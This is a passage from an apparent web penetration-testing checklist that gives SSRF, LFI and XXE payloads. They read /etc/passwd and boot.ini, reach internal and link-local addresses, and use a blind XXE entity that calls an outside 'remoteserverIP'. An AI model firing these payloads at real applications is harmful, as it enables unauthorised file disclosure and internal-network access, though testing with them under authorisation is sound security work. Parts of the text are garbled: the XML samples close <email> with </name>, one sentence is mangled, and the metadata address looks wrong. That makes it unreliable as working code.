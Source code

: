 ```
http://3232235521/
http://3232235777/
```

3.16. Test any parameter that takes URL such as "img_url", "redirect", check first if the vulnerable parameter can communicate with external server.

```
SSRF to LFI:
https://target.com/img.php?img_url=file:///etc/passwd
file:///c:/boot.ini
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```

3.17. If the application is sending any HTTP requests that contains `XML`, try to look for `XML/XXE injection`  
```
No instead of sending a text, we can try external ENTITY (file:///c:/boot.ini) for Windows OS :
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <name>mo</name>
  <email>&xxe;</name>
</root>
```

3.18. SSRF through XXE

```
Allow outsider to force the server to initiate a Request to internal recourses

<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.196.254">]>
<root>
  <name>mo</name>
  <email>&xxe;</name>
</root>
```

3.19. Advanced XXE (Blind XXE), using Parameter ENTITY to enforce the server to make a call to my server and check if my server getting requests or not.
Parameter ENTITY can be only used within the DTD, we can use the below payload to check for Blind XXE.

```
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE data [<!ENTITY % remote SYSTEM "http://remoteserverIP/index.html">%remote;]>
```

3.20. You can check for other injection attacks such as `LDAP injection`, `LFI and RFI`, `Server Side Template Injection`, `Host Header Injection`..etc check https://github.com/me-redteam/wstg/tree/master/document/4-Web_Application_Security_Testing/07-Input_Validation_Testing.
